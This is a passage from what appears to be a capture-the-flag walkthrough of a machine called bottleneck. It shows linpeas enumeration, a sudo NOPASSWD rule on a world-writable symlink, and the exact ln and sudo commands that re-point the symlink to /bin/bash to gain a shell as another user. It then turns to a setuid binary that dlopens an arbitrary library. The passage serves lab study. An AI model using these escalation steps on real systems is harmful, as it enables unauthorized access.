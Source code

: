 7. System Enumeration: run full enumeration with linpeas, we can see one file that look interasting:
```
User www-data may run the following commands on bottleneck:
    (bytevsbyte) NOPASSWD: /var/www/html/web_utils/clear_logs
```
This is mean that we can run `sudo` as bytevsbyte without insert any password if the path is to that clear_logs file, if we search for that clear_logs file we can see that it point to the following file:
```
/opt/clear_logs.sh
```
If we look at the file we can find the following, which is used to remove the logs that created from the php file that we have compromised.
```
www-data@bottleneck:~/html$ cat /var/www/html/web_utils/clear_logs
#!/bin/bash
rm -f /var/log/soc/intrusion_*
```
If we run `ll` or `ls -la` on the same directory we can see the following interesting about that file.
```
www-data@bottleneck:~/html$ ls -la /var/www/html/web_utils/clear_logs
lrwxrwxrwx 1 root root 18 Mar  2  2020 /var/www/html/web_utils/clear_logs -> /opt/clear_logs.sh
```
You can see the value permission on that file is `lrwxrwxrwx`, which mean that with www-data we have permission to change that symbolic link.

8. Escalation: what we need next after we found that we can change the link so it point to other location, we just need to point it to /bin/bash for grabing bash as bytevsbyte user and then run it with sudo.
```
ln -sf /bin/bash /var/www/html/web_utils/clear_logs
sudo -u bytevsbyte /var/www/html/web_utils/clear_logs
```
So now we can see that we are connected as bytevsbyte user.
```
www-data@bottleneck:~/html$ sudo -u bytevsbyte /var/www/html/web_utils/clear_logs
bytevsbyte@bottleneck:~/html$ id
uid=1000(bytevsbyte) gid=1000(bytevsbyte) groups=1000(bytevsbyte),4(adm),24(cdrom),30(dip),46(plugdev),1001(tester)
bytevsbyte@bottleneck:~/html$ whoami
bytevsbyte
bytevsbyte@bottleneck:~/html$
```

9. System Enumeration: so now we can run linpeas as bytevsbyte user, we expect to see different output. We have found the two files
```
-rw-r----- 1 root tester 281 Sep 27  2019 /usr/test/testlib.c
-rwsr-x--- 1 root tester 16528 Sep 26  2019 /usr/test/testlib
```
looking on the source code we can see the following
```
#include <dlfcn.h>
#include <unistd.h>
int main(int argc, char *argv[]){
    void *handle;
    int (*function)();
    if(argc < 2)
        return 1;
    handle = dlopen(argv[1], RTLD_LAZY);
    function = dlsym(handle, "test_this");
    function();
    return 0;
}
```